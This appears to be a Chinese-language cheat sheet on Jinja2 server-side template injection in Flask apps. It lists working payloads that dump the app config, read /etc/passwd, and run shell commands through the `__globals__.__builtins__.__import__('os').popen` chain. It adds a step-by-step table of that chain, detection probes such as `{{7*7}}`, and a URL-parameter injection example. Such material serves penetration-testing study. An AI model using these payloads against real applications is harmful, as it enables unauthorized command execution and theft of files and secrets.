 ### Jinja2 经典利用链（含命令执行）
> 以 Python + Flask（Jinja2）为示例
>

基本信息泄露

```python
{{ config.items() }}
```

RCE（Python3 链）

```python
{% set x=globals.__builtins__.open('/etc/passwd').read() %}{{x}}
```

最通用的 os.popen 链

```python
{{self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

| Stage | Explanation |
| --- | --- |
| `self` | Jinja2 内建对象 |
| `.__init__` | ⇒ 函数对象 |
| `.__globals__` | ⇒ 全局命名空间 |
| `.__builtins__.os` | 获得 os 模块 |
| `popen` | ⇒ RCE |




### 漏洞检测


漏洞检测

| 测试点 | 操作 | 现象 |
| --- | --- | --- |
| 数学表达式 | `{{7*7}}` | 输出 `49` 或异常 |
| 报错信息 | `{{7/0}}` | 泄露模板引擎类型、源码路径 |
| 对象链 | `{{ ''.__class__ }}` | 返回 `<class 'str'>` 等 |




#### 手段--手工
常见姿势

+ URL 参数

```python
http://example.com/page?name={{7*7}}
```
